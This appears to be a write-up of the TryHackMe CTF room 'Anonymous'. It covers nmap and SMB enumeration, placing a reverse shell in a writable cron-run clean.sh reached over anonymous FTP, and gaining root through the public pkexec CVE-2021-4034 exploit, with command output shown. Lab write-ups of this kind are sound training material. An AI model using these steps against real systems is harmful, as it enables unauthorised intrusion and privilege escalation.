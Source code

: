 ```yaml
---
title: "Anonymous"
date: 2025-03-26
image: /assets/img/tryhackme/Anonymous/Anonymous_image.jpg
description: Writeup of the TryHackMe-CTF Anonymous
categories: [TryHackMe, Medium]
tags: [linux, ftp, smb, pkexec]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Platform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>Anonymous</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>Not the hacking group</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Medium</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/room/anonymous">https://tryhackme.com/room/anonymous</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge ###.  

## Enumeration
I started the enumeration using `nmap`:
```bash
kali@kali:~/ctf/anonymous$ nmap -p- 10.10.186.161              
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-26 10:15 EDT
  Nmap scan report for 10.10.186.161
  Host is up (0.043s latency).
  Not shown: 65531 closed tcp ports (conn-refused)
  PORT    STATE SERVICE
  21/tcp  open  ftp
  22/tcp  open  ssh
  139/tcp open  netbios-ssn
  445/tcp open  microsoft-ds

  Nmap done: 1 IP address (1 host up) scanned in 24.46 seconds
```
and enumerated the found services in more depth using nmap's `-A` flag:
```bash
kali@kali:~/ctf/anonymous$ nmap -A -p 21,22,139,445 10.10.186.161
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-26 10:16 EDT
  Nmap scan report for 10.10.186.161
  Host is up (0.043s latency).

  PORT    STATE SERVICE     VERSION
  21/tcp  open  ftp         vsftpd 2.0.8 or later
  | ftp-anon: Anonymous FTP login allowed (FTP code 230)
  |_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]
  | ftp-syst: 
  |   STAT: 
  | FTP server status:
  |      Connected to ::ffff:10.21.63.26
  |      Logged in as ftp
  |      TYPE: ASCII
  |      No session bandwidth limit
  |      Session timeout in seconds is 300
  |      Control connection is plain text
  |      Data connections will be plain text
  |      At session startup, client count was 2
  |      vsFTPd 3.0.3 - secure, fast, stable
  |_End of status
  22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey: 
  |   2048 8b:ca:21:62:1c:2b:23:fa:6b:c6:1f:a8:13:fe:1c:68 (RSA)
  |   256 95:89:a4:12:e2:e6:ab:90:5d:45:19:ff:41:5f:74:ce (ECDSA)
  |_  256 e1:2a:96:a4:ea:8f:68:8f:cc:74:b8:f0:28:72:70:cd (ED25519)
  139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
  445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
  Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

  Host script results:
  | smb2-time: 
  |   date: 2025-03-26T14:16:56
  |_  start_date: N/A
  | smb-security-mode: 
  |   account_used: guest
  |   authentication_level: user
  |   challenge_response: supported
  |_  message_signing: disabled (dangerous, but default)
  | smb-os-discovery: 
  |   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
  |   Computer name: anonymous
  |   NetBIOS computer name: ANONYMOUS\x00
  |   Domain name: \x00
  |   FQDN: anonymous
  |_  System time: 2025-03-26T14:16:57+00:00
  |_clock-skew: mean: -6s, deviation: 1s, median: -6s
  | smb2-security-mode: 
  |   3:1:1: 
  |_    Message signing enabled but not required
  |_nbstat: NetBIOS name: ANONYMOUS, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)

  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 13.48 seconds
```
From here I proceeded the analysis port by port.

## Port 21 Analysis

Since Nmap discovered that the anonymous login was possible, I attempted to connect to the FTP server and was successful: 
```bash
kali@kali:~/ctf/anonymous$ ftp anonymous@10.10.186.161
  220 NamelessOne's FTP Server!
  Password: 
  230 Login successful.
  ftp> ls -al
  drwxr-xr-x    3 65534    65534        4096 May 13  2020 .
  drwxr-xr-x    3 65534    65534        4096 May 13  2020 ..
  drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts
  ftp> cd scripts
  ftp> ls -al
  drwxrwxrwx    2 111      113          4096 Jun 04  2020 .
  drwxr-xr-x    3 65534    65534        4096 May 13  2020 ..
  -rwxr-xrwx    1 1000     1000          314 Jun 04  2020 clean.sh
  -rw-rw-r--    1 1000     1000          989 Mar 26 14:18 removed_files.log
  -rw-r--r--    1 1000     1000           68 May 12  2020 to_do.txt
```

I found three files, which I downloaded and analyzed:
```bash
kali@kali:~/ctf/anonymous$ cat to_do.txt        
I really need to disable the anonymous login...it's really not safe

kali@kali:~/ctf/anonymous$ cat clean.sh 
#!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi

kali@kali:~/ctf/anonymous$ cat removed_files.log 
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
```

The files didn't provided any further information, so I continued with the next port.

## Port 139 & 445 Analysis

I proceeded by enumerating the system for potential accessible SMB shares using `enum4linux` and received the following output:
```bash
kali@kali:~/ctf/anonymous$ enum4linux 10.10.186.161
  [...]
  Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        pics            Disk      My SMB Share Directory for Pics
        IPC$            IPC       IPC Service (anonymous server (Samba, Ubuntu))
  [...]
  //10.10.186.161/pics    Mapping: OK Listing: OK Writing: N/A
```

The share `pics` appeared to be accessible, and I was able to connect successfully to the share using `smbclient`:
```bash
kali@kali:~/ctf/anonymous$ smbclient  -N \\\\10.10.186.161\\pics    
  Try "help" to get a list of possible commands.
  smb: \> ls
    .                                   D        0  Sun May 17 07:11:34 2020
    ..                                  D        0  Wed May 13 21:59:10 2020
    corgo2.jpg                          N    42663  Mon May 11 20:43:42 2020
    puppos.jpeg                         N   265188  Mon May 11 20:43:42 2020
```

I downloaded the files and analyzed them using steganography techniques but wasn't able to extract anything useful:
```bash
kali@kali:~/ctf/anonymous$ steghide --extract -sf corgo2.jpg            
Enter passphrase: 
steghide: could not extract any data with that passphrase!
                                                                                                                                            
kali@kali:~/ctf/anonymous$ steghide --extract -sf puppos.jpeg 
Enter passphrase: 
steghide: could not extract any data with that passphrase!

```
## Shell as namelessone

Since none of the files gave me any clues to gain initial access, I tried modifying files on the FTP server using FileZilla. I started a Netcat listener and inserted a reverse shell payload into the `clean.sh` script. After I pressed save I got the following response:  
```text
File transfer successful, transferred 403 bytes in 1 second
```

While reading this message, my Netcat listener received the reverse shell, and I was able to retrieve the user flag:
```bash
namelessone@anonymous:~$ id
  uid=1000(namelessone) gid=1000(namelessone) groups=1000(namelessone),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
namelessone@anonymous:~$ cat user.txt
  9[removed]0
```

## Privilege Escalation root
Next, I checked for SUID bits and discoverd that `pkexec` had its SUID bit set. I used the exploit described in <a href="https://github.com/joeammond/CVE-2021-4034/blob/main/CVE-2021-4034.py">CVE-2021-4034</a> and successfully gained root access:
```bash
namelessone@anonymous:~$ find / -perm /4000 -type f 2>/dev/null
  [...]
  /usr/bin/pkexec
  [...]
namelessone@anonymous:~$ nano exploit.py
namelessone@anonymous:~$ python3 exploit.py 
  Do you want to choose a custom payload? y/n (n use default payload)  n
  [+] Cleaning pervious exploiting attempt (if exist)
  [+] Creating shared library for exploit code.
  [+] Finding a libc library to call execve
  [+] Found a library at <CDLL 'libc.so.6', handle 7f93d502d000 at 0x7f93d3ad87f0>
  [+] Call execve() with chosen payload
  [+] Enjoy your root shell
# id
  uid=0(root) gid=1000(namelessone) groups=1000(namelessone),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
# cat /root/root.txt
  4[removed]3
```

solved! :)